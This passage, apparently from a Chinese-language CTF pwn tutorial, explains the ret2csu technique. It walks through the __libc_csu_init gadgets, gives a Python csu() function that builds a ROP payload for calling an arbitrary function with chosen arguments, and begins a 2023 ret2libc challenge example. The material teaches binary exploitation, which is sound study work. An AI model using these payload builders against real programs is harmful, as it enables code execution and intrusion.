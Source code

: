 很简单，就是依次从栈中弹出值来赋值给对应寄存器

能控制 rbx、rbp、r12、r13、r14、r15 寄存器

再看下面这段汇编

```bash
.text:0000000000401250 4C 89 F2                      mov     rdx, r14
.text:0000000000401253 4C 89 EE                      mov     rsi, r13
.text:0000000000401256 44 89 E7                      mov     edi, r12d
.text:0000000000401259 41 FF 14 DF                   call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:0000000000401259
.text:000000000040125D 48 83 C3 01                   add     rbx, 1
.text:0000000000401261 48 39 DD                      cmp     rbp, rbx
.text:0000000000401264 75 EA                         jnz     short loc_401250
```

将 r14、r13、r12 寄存器中的值分别赋值给 rdx、rsi、rdi，然后执行 r15+rbx\*8 这个地址的函数

结合上面，是不是看出了什么？

对了，可以利用这两个 gadget 来进行一个任意存在的函数调用

r12 对应 edi、r13 对应 rsi、r14 对应 rdx，r15 和 rbx 对应要调用的函数地址、rbp 赋值成 1 即可

可以构造 payload 函数：

```bash
def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r15 should be the function we want to call() 注意是用函数 got 表 call！！
    # rdi=edi=r12
    # rsi=r13
    # rdx=r14
    # csu(0, 1, rdi, rsi, rdx, fun_got, last)
    payload = b""
    payload += p64(csu_end_addr) # pop rbx,rbp,r12,r13,r14,r15
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_front_addr)#call
    payload += b'\x00' * 0x38#csu后的汇编指令跳转   
    payload += p64(last)    
    return payload
```

ps：编译的 libc 版本不同各寄存器的对应关系也会不同，具体要看程序中该函数的构成。

### 例题：2023 极客大挑战 ret2libc

ida

```bash
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  write(1, "try this\n", 9uLL);
  vuln();
  write(1, "bye ~", 5uLL);
  return 0;
}
```
